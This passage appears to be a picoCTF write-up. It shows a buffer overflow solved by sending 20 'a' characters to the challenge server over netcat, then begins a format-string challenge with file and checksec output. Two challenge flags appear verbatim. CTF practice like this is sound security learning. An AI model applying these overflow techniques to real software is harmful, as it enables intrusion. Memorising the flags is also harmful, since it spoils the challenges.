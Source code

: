 - So, I tried using the payload `aaaaaaaaaaaaaaaaaaaa` which is `a` repeated `20` times

- Next I created a `flag.txt`, made the execution of `vuln` possible and ran it to test my exploit

```bash
$ chmod +x vuln
$ touch flag.txt
$ echo "SUCCESS" > flag.txt
```

```bash
$ ./vuln
Input: aaaaaaaaaaaaaaaaaaaa
SUCCESS
```

- Now we have our payload so I connected to the picoctf server using netcat and used the payload to get the flag
```bash
$ nc saturn.picoctf.net 59864
Input: aaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## 2. format string 0

The challenge is to use format string to exploit the program and get the flag

- Source Code: [format-string-0.c](./formatstr0/format-string-0.c)
- Binary: [format-string-0](./formatstr0/format-string-0)

### My Solution

**Flag:**`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}`

**Steps:**
- My first step was to analyse the executable file for which I ran the `file` and `checksec` commands

```bash
$ file format-string-0
format-string-0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=73480d84a806aebddd86602609fcab2052c8fa13, for GNU/Linux 3.2.0, not stripped
```

```bash
$ checksec --file=format-string-0
```
![checksec](./formatstr0/checksec.png "checksec")

- The analysation reveals that the file:
    - is not-stripped so maybe we can use this to our help in future steps
    - is an executable that is not Position Independent 
    - runs on the 64-bit calling convention
    - NX is enebled which prevents data of the program being used for execution (it means that certain parts of the program are not executable)
    - there is No canary found which is good for us as we don't need to worry about bypassing stack canaries 
    - Partial RELRO is enebled  
